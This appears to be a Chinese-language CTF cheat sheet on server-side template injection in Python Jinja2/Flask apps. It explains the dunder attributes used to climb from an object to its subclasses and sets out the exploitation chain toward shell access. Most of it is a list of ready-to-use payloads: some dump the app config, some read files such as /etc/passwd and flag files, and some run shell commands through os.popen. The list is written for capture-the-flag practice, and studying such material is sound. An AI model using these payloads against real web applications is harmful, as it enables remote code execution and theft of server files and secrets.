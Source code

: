 ![](ssti/2.png)
<br>

**基础类的执行**
```
__class__  返回类型所属的对象（类）
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的
__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```

## SSTI漏洞利用基本流程
获取当前类 -> 获取其object基类 -> 获取所有子类 -> 获取可执行shell命令的子类 -> 获取可执行shell命令的方法 -> 执行shell命令

## 常用payload
### 无过滤情况
```
#**简单查找具体python类的索引：**
import os
print(''.__class__.__bases__[0].__subclasses__().index(os._wrap_close))


#读取config
如果flag写入config内，那么可以直接{{config}}查看或者{{self.dict._TemplateReference__context.config}}

#读取文件类，<type ‘file’> file位置一般为40，直接调用
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()}}
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()}}
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}} (python3)


#直接使用popen命令，python2是非法的，只限于python3
！！！！！！！！
**os._wrap_close** 类里有popen和builtins,一般位置为132~139附近
<class ‘site._Printer’> 调用os的popen执行命令
<class ‘warnings.catch_warnings’>一般位置为59，可以用它来调用file、os、eval、commands等


{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()}}


#调用os的popen执行命令
#python2、python3通用
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls /flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
```
